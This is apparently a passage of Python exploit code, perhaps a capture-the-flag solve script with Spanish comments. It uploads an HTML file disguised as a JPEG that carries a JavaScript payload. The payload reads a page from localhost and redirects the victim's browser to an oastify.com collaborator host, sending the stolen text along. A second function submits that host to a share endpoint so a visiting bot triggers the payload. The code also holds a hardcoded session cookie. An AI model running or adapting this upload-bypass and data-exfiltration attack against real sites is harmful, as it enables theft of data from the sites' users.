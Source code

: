```python
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3",
        "Accept-Encoding": "gzip, deflate",
        "Content-Length": "839",
        "Dnt": "1",
        "Sec-Gpc": "1",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-User": "?1",
        "Te": "trailers"
    }

    files = {
        'image': ('index.html', 
                  '<script>\nfetch(\'http://localhost:3000/\', { cache: "force-cache" })\n  .then(response => response.text())\n  .then(text => {\n    const index = text.indexOf("modal.show");\n    if (index !== -1) {\n      const textAfterGallery = text.substring(index + "modal.show".length);\n      // Redireccionar con el texto obtenido\n      window.location = "https://rfaz53n9kf43qi85mzh9vnrd94fv3k.oastify.com/" + encodeURI(textAfterGallery);\n    } else {\n      console.error(\'No se encontró la cadena "modal.show" en la respuesta.\');\n    }\n  })\n  .catch(error => console.error(\'Error fetching data:\', error));\n</script>',
                  'image/jpeg')
    }

    r = requests.post(url, headers=headers, files=files)
    print("upload hit")
    print(r.text)


async def share():

    global host
    print("share init")
    url = "http://{}/share".format(host)
    headers = {
        "Cookie": "sid=b01a8531-88f9-4f31-8d8d-b24e317b91a",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0",
        "Accept": "*/*",
        "Accept-Language": "es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "application/json",
        "Dnt": "1",
        "Sec-Gpc": "1",
        "Sec-Fetch-Dest": "empty",
        "Sec-Fetch-Mode": "cors",
        "Sec-Fetch-Site": "same-origin",
        "Te": "trailers"
    }

    data = {
        "id": "https://rfaz53n9kf43qi85mzh9vnrd94fv3k.oastify.com/share"
    }

    async with aiohttp.ClientSession() as session:
        async with session.post(url, headers=headers, json=data) as response:
            print("share hit")
            print("Status code:", response.status)


```